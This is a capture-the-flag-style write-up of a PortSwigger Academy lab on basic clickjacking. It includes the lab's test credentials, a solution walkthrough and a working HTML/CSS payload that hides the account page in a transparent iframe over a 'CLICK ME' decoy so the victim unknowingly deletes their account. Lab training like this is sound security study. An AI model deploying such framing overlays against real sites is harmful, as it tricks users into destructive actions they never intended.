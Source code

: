 clickjacking: https://portswigger.net/web-security/clickjacking#what-is-clickjacking

Labs path:  https://portswigger.net/web-security/all-labs#clickjacking

# 1)Lab: Basic clickjacking with CSRF token protection

Lab: https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected
Lab Vid: https://www.youtube.com/watch?v=_tz0O5-cndE&ab_channel=Intigriti

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`


#### Note

The victim will be using Chrome so test your exploit on that browser.


#### Solution
1. Log in to your account on the target website.
2. Go to the exploit server and paste the following HTML template into the **Body** section:
```
<style> iframe { position:relative; width:$width_value; height: $height_value; opacity: $opacity; z-index: 2; } div { position:absolute; top:$top_value; left:$side_value; z-index: 1; } </style> <div>Test me</div> <iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

1. Make the following adjustments to the template:
    - Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID.
    - Substitute suitable pixel values for the `$height_value` and `$width_value` variables of the iframe (we suggest 700px and 500px respectively).
    - Substitute suitable pixel values for the `$top_value` and `$side_value` variables of the decoy web content so that the "Delete account" button and the "Test me" decoy action align (we suggest 300px and 60px respectively).
    - Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
2. Click **Store** and then **View exploit**.
3. Hover over **Test me** and ensure the cursor changes to a hand indicating that the div element is positioned correctly. **Do not actually click the "Delete account" button yourself.** If you do, the lab will be broken and you will need to wait until it resets to try again (about 20 minutes). If the div does not line up properly, adjust the `top` and `left` properties of the style sheet.
4. Once you have the div element lined up correctly, change "Test me" to "Click me" and click **Store**.
5. Click on **Deliver exploit to victim** and the lab should be solved.

**Analysis:**
iframe:- https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe

CSS:- https://developer.mozilla.org/en-US/docs/Web/CSS

==click jacking code:==  for this lab
```
<style>

iframe{
position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;

}
div{
Position:absolute;
top:515px;
left:60px;
z-index: 1;
}
</style>
<div>CLICK ME</div>
<iframe src= "https://0aed002e0411e037808830210079002f.web-security-academy.net/my-account?id=wiener"></iframe>
```
